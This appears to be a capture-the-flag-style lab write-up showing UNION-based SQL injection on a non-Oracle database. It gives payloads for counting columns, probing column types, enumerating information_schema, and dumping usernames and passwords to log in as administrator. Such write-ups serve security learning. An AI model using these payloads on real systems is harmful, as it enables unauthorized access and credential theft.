 
### SQL injection attack, listing the database contents on non-Oracle databases : PRACTITIONER

---

> First, we find out the number of columns in the output query using the `ORDER BY` technique. keep increasing the index until an error is recieved.
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```
> Get an error at 3, hence we have 2 columns.

> Next, we need to find the data types of these columns.
```
' UNION SELECT 'a', NULL--
' UNION SELECT NULL, 'a'--
```
> Both are text fields.

> Next we need to find the user table in order to get the usernames and passwords. Using the `information_schema` database, listing the TABLE_NAMEs of all tables.
```
' UNION SELECT TABLE_NAME, NULL FROM information_schema.tables-- 
```

> Try the `users_oxepzf` table and list the columns of that table.
```
' UNION SELECT COLUMN_NAME, NULL FROM information_schema.columns WHERE table_name='users_oxepzf'--
```
> We get to column names as output:
* username_kscelq
* password_lyarmh

> We can now construct a normal query to get the data in these columns.
```
' UNION SELECT username_kscelq, password_lyarmh FROM users_oxepzf -- 
```

>This lists the usernames and passwords of all users present in the `users_oxepzf` table.

![adminpassword](./screenshots/pass.png)
> We can then use the administrator and his password to login as admin and complete the lab.

---
